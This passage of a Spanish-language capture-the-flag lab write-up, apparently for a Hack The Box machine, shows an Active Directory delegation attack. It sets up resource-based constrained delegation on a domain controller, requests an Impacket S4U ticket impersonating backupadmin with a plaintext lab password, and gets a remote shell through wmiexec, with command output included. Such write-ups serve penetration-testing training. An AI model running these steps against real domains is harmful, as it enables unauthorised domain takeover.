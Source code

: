 Añadimos `IT-COMPUTER3$` a la lista de cuentas que pueden solicitar tickets de servicio (TGS) para impersonar usuarios hacia el DC

```powershell
$computer = Get-ADComputer -Identity "IT-COMPUTER3"
Set-ADComputer -Identity "DC" -PrincipalsAllowedToDelegateToAccount $computer
```

desde la maquina atacante
>>>Obtener un ticket TGS para el servicio CIFS en el DC (usando Impacket)
```bash
export KRB5CCNAME=IT-COMPUTER3\$.ccache
```
```bash
impacket-getST -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip 10.10.11.75 -k 'rustykey.htb/IT-COMPUTER3$:Rusty88!'
```
```bash
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating backupadmin
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
```

ahora seteamos la variable de entorno `KRB5CCNAME`

```bash
export KRB5CCNAME=backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
```

accedemnos con `impacket-wmiexec`

```bash
impacket-wmiexec -k -no-pass 'rustykey.htb/backupadmin@dc.rustykey.htb'
```
```powershell
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
rustykey\backupadmin

C:\>cd C:\Users\Administrator
C:\Users\Administrator>dir
 Volume in drive C has no label.
 Volume Serial Number is 00BA-0DBE

 Directory of C:\Users\Administrator

06/04/2025  09:37 AM    <DIR>          .
06/04/2025  09:37 AM    <DIR>          ..
06/24/2025  10:00 AM    <DIR>          3D Objects
06/24/2025  10:00 AM    <DIR>          Contacts
06/24/2025  10:00 AM    <DIR>          Desktop
06/24/2025  10:00 AM    <DIR>          Documents
06/24/2025  10:00 AM    <DIR>          Downloads
06/24/2025  10:00 AM    <DIR>          Favorites
06/24/2025  10:00 AM    <DIR>          Links
06/24/2025  10:00 AM    <DIR>          Music
06/24/2025  10:00 AM    <DIR>          Pictures
06/24/2025  10:00 AM    <DIR>          Saved Games
06/24/2025  10:00 AM    <DIR>          Searches
06/24/2025  10:00 AM    <DIR>          Videos
               0 File(s)              0 bytes
              14 Dir(s)   2,950,041,600 bytes free
```